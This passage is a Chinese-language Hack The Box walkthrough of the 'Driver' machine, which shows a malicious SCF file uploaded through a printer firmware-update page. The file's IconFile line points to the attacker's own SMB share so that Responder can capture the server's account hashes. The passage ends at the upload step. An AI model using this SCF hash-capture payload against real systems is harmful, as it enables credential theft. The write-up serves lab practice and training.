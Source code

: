 MFP 固件更新中心

唯一有效的页面是固件更新页面:

![](img/56d759a1709742e2dfb7d8718d92bdc1.png)

固件更新

# 恶意 SCF 文件

在这个页面上可以上传我们自己的文件。所以我们正在寻找一种执行有效载荷的方式，经过一番搜索，我在 Pentestlab 上找到了[这篇](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks)很棒的文章。在此之后，我们可以创建一个 scf 文件，这将导致服务器尝试联系我们的攻击机器，在那里我们有 Responder 侦听捕获帐户的哈希正在使用。

首先创建我们的恶意 scf 文件:

```
┌──(root💀kali)-[~/htb/driver]
└─# cat @pencer.scf      
[Shell]
Command=2
IconFile=\\10.10.14.192\share\pencer.ico
[Taskbar]
Command=ToggleDesktop
```

这里我有我的 Kali IP 在 tun0 上，图标和共享并不存在，他们只是需要这个工作。

现在上传文件:

![](img/db54d2b0c15d051645fc0d1c1e8c5861.png)
